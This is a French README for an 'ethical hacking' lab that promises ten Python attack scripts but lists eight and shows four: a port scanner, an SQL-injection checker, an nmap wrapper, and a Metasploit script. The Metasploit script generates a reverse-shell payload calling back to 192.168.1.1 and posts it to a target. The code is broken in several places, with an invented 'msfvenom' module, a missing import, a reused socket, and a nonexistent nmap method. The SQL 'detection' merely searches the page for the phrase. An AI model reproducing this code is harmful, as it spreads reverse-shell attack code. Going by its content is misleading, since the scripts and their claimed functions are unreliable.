 # Lab complet en Python, HTML, Bootstrap et JavaScript avec le top 10 des scripts Python pour ethical hacking

## Introduction

Ce lab vous donne une introduction aux techniques d'ethical hacking et aux scripts Python pour ethical hacking. Il vous permet de mettre en pratique vos connaissances et de développer vos compétences.

## Prérequis

* Connaissances de base en informatique
* Connaissances de base en programmation

## Matériel

* Un ordinateur avec un système d'exploitation Windows, macOS ou Linux
* Un éditeur de texte ou un IDE (environnement de développement intégré)
* Une connexion Internet

## Étape 1 : Installation du matériel et des logiciels

1. Installez un environnement de développement Python, comme Anaconda ou Pythonista.
2. Installez un éditeur de texte ou un IDE, comme Visual Studio Code ou Sublime Text.

## Étape 2 : Installation des dépendances

1. Installez les dépendances pour les scripts Python, en exécutant la commande suivante :

Utilisez le code avec précaution. En savoir plus
pip install -r requirements.txt

Étape 3 : Lancement du lab
Ouvrez le fichier index.html dans votre navigateur Web.
Top 10 des scripts Python pour ethical hacking

# Tableau de synthèse

| Script | Langue | Fonctionnalité |
|---|---|---|
| portscanner.py | Python | Scanne les ports ouverts sur un serveur ou un appareil. |
| sqlmap.py | Python | Identifie et exploite les vulnérabilités SQL injection. |
| metasploit.py | Python | Utilise le framework Metasploit pour lancer des attaques contre des systèmes. |
| nmap.py | Python | Lance des scans réseau pour identifier les vulnérabilités. |
| nikto.py | Python | Lance des scans de vulnérabilités sur des sites Web. |
| owasp-zap.py | Python | Utilise l'outil OWASP ZAP pour identifier les vulnérabilités. |
| wpscan.py | Python | Identifie et exploite les vulnérabilités de WordPress. |
| john-the-ripper.py | Python | Craque les mots de passe en utilisant la force brute ou des dictionnaires. |

### Script : portscanner.py
Ce script scanne les ports ouverts sur un serveur ou un appareil.

```Python
import socket

def main():
    # Demander à l'utilisateur l'adresse IP ou le nom de domaine à scanner
    host = input("Adresse IP ou nom de domaine à scanner : ")

    # Créer un socket TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Scanner les ports de 1 à 65535
    for port in range(1, 65535):
        # Essayer de se connecter au port
        try:
            s.connect((host, port))
        except socket.error:
            # Le port est fermé
            pass
        else:
            # Le port est ouvert
            print("Port {} ouvert".format(port))

    s.close()

if __name__ == "__main__":
    main()
```

Utilisez le code avec précaution. En savoir plus
### Script : sqlmap.py
Ce script identifie et exploite les vulnérabilités SQL injection.

```Python
import requests

def main():
    # Demander à l'utilisateur l'adresse URL du site Web à scanner
    url = input("Adresse URL du site Web à scanner : ")

    # Créer une requête GET simple
    request = requests.get(url)

    # Analyser la réponse HTTP pour détecter les vulnérabilités SQL injection
    if "SQL injection" in request.text:
        print("Le site Web {} est vulnérable à SQL injection".format(url))
    else:
        print("Le site Web {} n'est pas vulnérable à SQL injection".format(url))

if __name__ == "__main__":
    main()
```

Utilisez le code avec précaution. En savoir plus

### Script : metasploit.py
Ce script utilise le framework Metasploit pour lancer des attaques contre des systèmes.

```Python
import msfvenom

def main():
    # Demander à l'utilisateur l'adresse IP ou le nom de domaine de la cible
    target = input("Adresse IP ou nom de domaine de la cible : ")

    # Générer un payload malveillant
    payload = msfvenom.payloads.linux.x64.shell_reverse_tcp(LHOST="192.168.1.1", LPORT=4444)

    # Envoyer le payload à la cible
    requests.post(target, data=payload)

if __name__ == "__main__":
    main()
```

Utilisez le code avec précaution. En savoir plus

### Script : nmap.py
Ce script lance des scans réseau pour identifier les vulnérabilités.

```python

import nmap

def main():
    # Demander à l'utilisateur l'adresse IP ou le nom de domaine de la cible
    target = input("Adresse IP ou nom de domaine de la cible : ")

    # Lancer un scan Nmap
    scan = nmap.PortScanner()
    scan.scan(target, "1-65535")

    # Afficher les résultats du scan
    for host in scan.all_hosts():
        for port in scan[host].get_open_ports():
            print("Port {} ouvert sur {} ({})".format(port, host, scan[host][port]["state"]))

if __name__ == "__main__":
    main()
```

Ce script utilise la bibliothèque nmap pour lancer un scan Nmap sur la cible spécifiée par l'utilisateur. Le scan analyse les ports de 1 à 65535. Les résultats du scan sont affichés sur la console.

Voici une explication des différentes sections du code :

La fonction main() est la fonction principale du script. Elle demande à l'utilisateur l'adresse IP ou le nom de domaine de la cible, puis lance le scan Nmap.
La fonction scan() de la bibliothèque nmap lance un scan Nmap sur la cible spécifiée.
La fonction get_open_ports() de la bibliothèque nmap renvoie une liste des ports ouverts sur la cible.
La boucle for itère sur les ports ouverts et affiche les informations sur chaque port.
Voici un exemple de sortie du script :
```
Adresse IP ou nom de domaine de la cible : 192.168.1.1

Port 22 ouvert sur 192.168.1.1 (open)
Port 80 ouvert sur 192.168.1.1 (open)
Port 443 ouvert sur 192.168.1.1 (open)
```
